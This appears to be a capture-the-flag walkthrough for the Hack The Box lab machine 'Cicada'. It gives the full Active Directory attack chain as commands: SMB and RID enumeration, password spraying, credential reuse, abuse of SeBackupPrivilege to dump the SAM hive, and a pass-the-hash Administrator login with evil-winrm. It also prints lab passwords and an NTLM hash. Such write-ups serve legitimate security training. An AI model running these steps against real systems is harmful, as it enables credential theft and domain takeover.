


## Cicada 10.10.11.35



- port 88 is open means this is a domain controller with kerberos authentication

- `smbclient //10.10.11.35`
OR `netexec smb cicada.htb -u abzee -p "" --shares`

- enumerate the HR share:
    ```

    Dear new hire!

    Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

    Your default password is: Cicada$M6Corpb*@Lp#nZp!8

    To change your password:

    1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
    2. Once logged in, navigate to your account settings or profile settings section.
    3. Look for the option to change your password. This will be labeled as "Change Password".
    4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
    5. After changing your password, make sure to save your changes.

    Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

    If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

    Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

    Best regards,
    Cicada Corp

    ```

- https://www.netexec.wiki/

- `netexec smb cicada.htb -u agami -p "" --rid-brute`


    - We get a list of users and we are interested in the SidTypeUsers
    - Password spraying for every user, we find that michael is the new hire

- `netexec smb -u michael.wrightson -p "Cicada\$M6Corpb*@Lp#nZp\!8" --shares cicada.htb`
    - Enumerating the shares, we do not find any other information
    - Trying ldap to see if the password is reused.

- `netexec ldap cicada.htb -u michael.wrightson -p "Cicada\$M6Corpb*@Lp#nZp\!8" -M ldap-checker`
    - this will verify is the ldap requires channel biding or not

- `netexec ldap cicada.htb -u michael.wrightson -p "Cicada\$M6Corpb*@Lp#nZp\!8" --users`

    - david.orelious:aRt$Lp#7t*VQ!3
 
- `smbclient //10.10.11.35/dev -U 'david.orelious'`
    - access the dev share and get the powershell script
    - emily.oscars:Q!3@Lp#M6b*7t*Vt

- `evil-winrm -i cicada.htb -u 'emily.oscars'` Enter password on prompt

- get the user flag

- `whoami /priv` - find the privileges given to this user
    - We have the `SeBackupPrivilege`
    - https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
    - https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md

- Download the sam and system files on our machine

- `pypykatz registry --sam sam system`
    - get the NTLM hashes (second one) and use them

    - Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341::: 
    - Administrator:2b87e7c93a3e8a0ea4a581937016f341

- `evil-winrm -i cicada.htb -u Administrator -H "2b87e7c93a3e8a0ea4a581937016f341"`
    - get the root flag

<hr>
<hr>
===============================================================================================================
OTHER NOTES
===============================================================================================================

- https://hackviser.com/tactics/pentesting/services/ldap

- `ldapsearch -x -H ldap://cicada.htb -b "" -s base "(objectclass=*)"`




